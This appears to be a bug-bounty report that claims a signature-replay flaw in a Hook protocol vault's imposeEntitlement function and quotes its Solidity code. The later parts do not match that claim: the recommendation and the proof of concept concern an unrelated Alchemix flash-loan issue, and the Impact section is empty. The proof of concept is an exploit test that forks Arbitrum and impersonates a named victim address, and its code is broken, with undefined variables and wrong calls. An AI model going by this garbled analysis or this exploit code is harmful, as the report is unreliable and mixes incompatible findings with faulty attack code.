 Once entitlement is imposed, its signature can be reused again to reverse the effect of entitlement clearing.

## Bug Description
`HookERC721MultiVaultImplV1.imposeEntitlement()` is prone to signature replay attack that same signature can be reused time and again until expiry time.

Signature does not contain nonce to invalidate once used one.

If asset's operator has given asset's operator clears settlement by calling `HookERC721MultiVaultImplV1.clearEntitlement()`, it can be reversed by calling `HookERC721MultiVaultImplV1.imposeEntitlement()` again with same signature.

https://github.com/hookart/protocol/blob/main/src/HookERC721MultiVaultImplV1.sol#L118-L132
```solidity
    function imposeEntitlement(address operator, uint32 expiry, uint32 assetId, uint8 v, bytes32 r, bytes32 s)
        public
        virtual
    {
        // check that the asset has a current beneficial owner
        // before creating a new entitlement
        require(
            assets[assetId].beneficialOwner != address(0),
            "imposeEntitlement-beneficial owner must be set to impose an entitlement"
        );

        // the beneficial owner of an asset is able to set any entitlement on their own asset
        // as long as it has not already been committed to someone else.
        _verifyAndRegisterEntitlement(operator, expiry, assetId, v, r, s);
    }
```

https://github.com/hookart/protocol/blob/main/src/HookERC721MultiVaultImplV1.sol#L348-L373
```solidity
    function validateEntitlementSignature(
        address operator,
        uint32 expiry,
        uint32 assetId,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) public view {
        bytes32 entitlementHash = _getEIP712Hash(
            Entitlements.getEntitlementStructHash(
                Entitlements.Entitlement({
                    beneficialOwner: assets[assetId].beneficialOwner,
                    expiry: expiry,
                    operator: operator,
                    assetId: assetId,
                    vaultAddress: address(this)
                })
            )
        );
        address signer = ecrecover(entitlementHash, v, r, s);

        require(signer != address(0), "recovered address is null");
        require(
            signer == assets[assetId].beneficialOwner, "validateEntitlementSignature --- not signed by beneficialOwner"
        );
    }
```

## Impact


## Risk Breakdown
Difficulty to Exploit: Medium
Weakness: Medium
CVSS2 Score: 6.5

## Recommendation

Should include following ERC3156 standard and spendAllowance given by the user before buring token.

https://github.com/radiant-capital/v2/blob/main/contracts/lending/libraries/logic/ValidationLogic.sol

```solidity
https://github.com/alchemix-finance/v2-foundry/blob/master/src/AlchemicTokenV2.sol#L232
```solidity
  function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
  ) external override nonReentrant returns (bool) {
	...

    uint256 fee = flashFee(token, amount);

    _mint(address(receiver), amount);

    if (receiver.onFlashLoan(msg.sender, token, amount, fee, data) != CALLBACK_SUCCESS) {
      revert IllegalState();
    }

    _burn(address(receiver), amount + fee); // Will throw error if not enough to burn

    return true;
  }
```

## References
https://github.com/alchemix-finance/v2-foundry/blob/master/src/AlchemicTokenV2.sol#L232
https://github.com/alchemix-finance/v2-foundry/blob/master/src/AlchemicTokenV2Base.sol#L231
https://eips.ethereum.org/EIPS/eip-3156#flash-lending-security-considerations

## Proof of Concept
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

interface IAlchemixTokenV2 is IERC20 {
	function flashFee(address token, uint256 amount) external view returns (uint256 fee);
	function flashLoan(
		IERC3156FlashBorrower receiver,
		address token,
		uint256 amount,
		bytes calldata data
	) external returns (bool success);
}


contract AlchemixTokenV2Exploit is Test {

    IAlchemixTokenV2 alcx = IAlchemixTokenV2(0xF4B1486DD74D07706052A33d31d7c0AAFD0659E1);
    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
    address victim =  0xDA63F22BF4bDC0B88536bDf4375fc9E14862ABD8;
	uint256 amount = 1 ether;

    function setUp() public {
        cheats.createSelectFork("arbitrum", 95144404);
        deal(address(this), 0);
    }

    function testExp() external {
        vm.startPrank(victim);

        uint256 _fee = alcx.flashFee(amount);
        uint256 _repayment = amount + _fee;
        IERC20(token).increaseAllowance(address(alcx), _repayment);

        console.log("Flashloan...");
        lender.flashLoan(this, token, amount, data);
		console.log("Approval after Flashloan - " + alcx.allowance(victim, alcx));
    }
}
```